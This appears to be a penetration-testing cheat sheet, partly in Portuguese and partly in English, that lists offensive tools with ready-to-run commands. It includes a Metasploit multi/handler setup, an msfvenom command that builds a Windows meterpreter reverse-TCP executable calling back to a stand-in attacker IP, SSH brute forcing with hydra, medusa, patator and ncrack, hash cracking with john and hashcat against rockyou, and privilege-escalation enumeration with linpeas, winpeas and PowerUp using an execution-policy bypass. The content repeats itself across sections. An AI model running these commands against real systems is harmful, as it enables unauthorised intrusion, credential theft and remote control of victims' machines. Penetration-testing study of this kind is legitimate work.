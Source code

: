  System Hacking Tools

 Exploitation Frameworks

 Metasploit
- msfconsole: Console principal
- msfvenom: Gerador de payloads
- meterpreter: Shell avançado

 Exploit-DB
- searchsploit: Pesquisa exploits locais
- exploit-db: Base de dados online

Password Attacks

Brute Force
- hydra: Brute force multi-protocolo
- medusa: Brute force paralelo
- patator: Brute force modular
- ncrack: Brute force de rede

Hash Cracking
- john: John the Ripper
- hashcat: GPU hash cracking
- ophcrack: Rainbow tables

Privilege Escalation

Linux
- linpeas: Enumeração automática
- linenum: Script de enumeração
- linux-exploit-suggester: Sugestões de exploits

Windows
- winpeas: Enumeração Windows
- windows-exploit-suggester: Sugestões de exploits
- powerup: PowerShell privilege escalation

System Hacking Tools

Exploitation Frameworks

Metasploit Framework

* `msfconsole`
  ↳ Main interactive console
* `msfvenom`
  ↳ Payload generation tool
* Meterpreter
  ↳ Powerful post-exploitation shell

Useful Metasploit Commands:

msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit

Payload Generation with msfvenom:

msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f exe -o payload.exe

Exploit Databases

* `searchsploit keyword`
  ↳ Search local Exploit-DB mirror
* [exploit-db.com](https://www.exploit-db.com)
  ↳ Online exploit database

Password Attacks

Brute Force Tools

* `hydra`
  ↳ Fast, protocol-aware brute forcer

  
  hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://target
  
* `medusa`
  ↳ Parallel brute force, supports many protocols

  
  medusa -h target -u user -P wordlist.txt -M ssh
  
* `patator`
  ↳ Modular brute-forcer with advanced options

  
  patator ssh_login host=target user=admin password=FILE0 0=wordlist.txt
  
* `ncrack`
  ↳ High-performance network brute forcer from the Nmap team

  
  ncrack -p ssh target
  

Hash Cracking Tools

* `john` (John the Ripper)
  ↳ Fast CPU-based hash cracker

  
  john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
  
  ↳ GPU-accelerated cracker

  
  hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt

  Common hash modes:

  * `0`: MD5
  * `100`: SHA1
  * `500`: MD5(Crypt)
  * `1000`: NTLM
* `ophcrack`
  ↳ Uses rainbow tables to crack Windows hashes

Privilege Escalation

Linux

* `linpeas.sh`
  ↳ Privilege escalation auditing (automated & colored)

  
  ./linpeas.sh
  
* `linenum.sh`
  ↳ Lightweight enumeration script

  
  ./linenum.sh
  
* `linux-exploit-suggester.sh`
  ↳ Suggests known privilege escalation exploits

  
  ./linux-exploit-suggester.sh
  

 Windows

* `winpeas.exe`
  ↳ Comprehensive privilege escalation enumeration

  powershell
  .\winpeas.exe
  
* `windows-exploit-suggester.py`
  ↳ Compares patches and suggests exploits

  
  python windows-exploit-suggester.py --database 2024-DB.csv --systeminfo systeminfo.txt
  
* `PowerUp.ps1`
  ↳ PowerShell-based enumeration

  powershell
  Import-Module .\PowerUp.ps1
  Invoke-AllChecks

Scripts & One-Liners

 Metasploit


msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit


 Payload Generation


msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip LPORT=4444 -f exe -o payload.exe


 Brute Force SSH


hydra -l username -P /usr/share/wordlists/rockyou.txt ssh://target


 Hash Cracking


john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt


 Privilege Escalation Enumeration


# Linux
./linpeas.sh
./linenum.sh

# Windows
.\winpeas.exe
powershell -ep bypass -File .\PowerUp.ps1